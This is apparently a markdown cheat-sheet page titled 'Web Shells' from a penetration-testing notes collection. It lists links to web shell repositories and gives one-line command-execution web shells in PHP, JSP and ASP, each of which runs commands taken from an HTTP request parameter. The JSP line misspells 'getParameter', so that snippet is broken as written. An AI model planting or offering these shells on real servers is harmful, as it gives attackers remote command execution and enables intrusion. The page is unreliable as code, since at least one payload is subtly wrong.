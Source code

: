 ```yaml
---
title: Web Shells
---
```

***

https://github.com/tennc/webshell

http://r57.gen.tr/
https://github.com/KaizenLouie/C99Shell-PHP7
https://www.1337pwn.com/best-php-web-shells/

#### PHP 
```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParamenter("cmd")); %>
```

#### ASP
```asp
<% eval request("cmd") %>
```
